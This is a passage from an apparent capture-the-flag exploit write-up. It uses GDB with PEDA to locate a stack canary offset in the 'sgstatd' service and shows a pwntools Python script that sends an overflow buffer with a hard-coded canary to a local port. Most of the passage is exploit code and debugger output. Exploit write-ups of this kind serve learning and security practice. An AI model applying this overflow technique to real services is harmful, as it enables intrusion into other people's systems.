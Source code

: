 We set a breakpoint at 0x080493b2 and this time we inject a unique pattern buffer created using the “pattern_create 199” command in GDB w/PEDA. We modify the “buf = “ line in our exploit python script as shown:

```
...

buf = 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAnAASAAoAATAApAAUAAqAAVAArAAWAAsAAXAAtAAYAAuAAZAAvAAw'

...
```

We run the program, send the payload and reach out breakpoint. We find EDX = 0x41374141:

```
Breakpoint 1, 0x080493b2 in sgstatd ()
gdb-peda$ info reg
eax            0xc8 0xc8
ecx            0xbfffefbd 0xbfffefbd
edx            0x41374141 0x41374141
```

Using the GDB PEDA function “pattern_offset 0x41374141” we see this 0x41374141 string is found at offset of 103 of our buffer.

So now we know that at offset 103, we need to have a correct stack canary value of 0xe4ffffe4.

I modify our exploit to suit:

```
#!/usr/bin/python
from pwn import *

HOST = '127.0.0.1'
PORT = 4242

buf =  'A' * 103 + p32(0xe4ffffe4) # 103 A's then a stack canary
buf += 'A' * (199-len(buf))    # fill out the buffer to 200 bytes

conn = remote(HOST,PORT)
banner = conn.recvuntil('logged in users')
print "[*] Got banner, sending hidden command..."
conn.sendline('X')
banner = conn.recvuntil('protected!')
print "[*] Got hidden prompt, sending payload..."
conn.sendline(buf)
```

I again run the proof of concept code with our sgstatd in the debugger. Again we set a breakpoint at the stack canary comparison point. I am now happy to see the EDX register is now being correctly populated with a correct canary value:

```
Breakpoint 1, 0x080493b2 in sgstatd ()
gdb-peda$ info reg
eax            0xc8 0xc8
ecx            0xbfffefbd 0xbfffefbd
edx            0xe4ffffe4 0xe4ffffe4
```
